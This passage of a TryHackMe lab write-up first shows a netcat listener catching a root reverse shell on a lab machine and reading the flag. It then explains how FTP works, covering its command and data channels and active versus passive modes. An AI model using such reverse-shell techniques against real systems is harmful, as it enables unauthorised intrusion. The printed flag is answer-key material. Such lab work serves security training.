 `No answer needed`

1.  Success! What is the contents of flag.txt?

```
kali@kali:~/CTFs/tryhackme/Network Services$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.221.224 56944
id
uid=0(root) gid=0(root) groups=0(root)
ls
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

`THM{y0u_g0t_th3_t3ln3t_fl4g}`

## Task 8 Understanding FTP

**What is FTP?**

File Transfer Protocol (FTP) is, as the name suggests , a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this, and- as we'll come on to later- relays commands and data in a very efficient way.

**How does FTP work?**

A typical FTP session operates using two channels:

* a command (sometimes called the control) channel
* a data channel.

As their names imply, the command channel is used for transmitting commands as well as replies to those commands, while the data channel is used for transferring data.

FTP operates using a client-server protocol. The client initiates a connection with the server, the server validates whatever login credentials are provided and then opens the session.

While the session is open, the client may execute FTP commands on the server.

**Active vs Passive**

The FTP server may support either Active or Passive connections, or both.

* In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it.
* In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it.

This separation of command information and data into separate channels is a way of being able to send commands to the server without having to wait for the current data transfer to finish. If both channels were interlinked, you could only enter commands in between data transfers, which wouldn't be efficient for either large file transfers, or slow internet connections.

**More Details:**

You can find more details on the technical function, and implementation of, FTP on the Internet Engineering Task Force website: [https://www.ietf.org/rfc/rfc959.txt](https://www.ietf.org/rfc/rfc959.txt). The IETF is one of a number of standards agencies, who define and regulate internet standards.
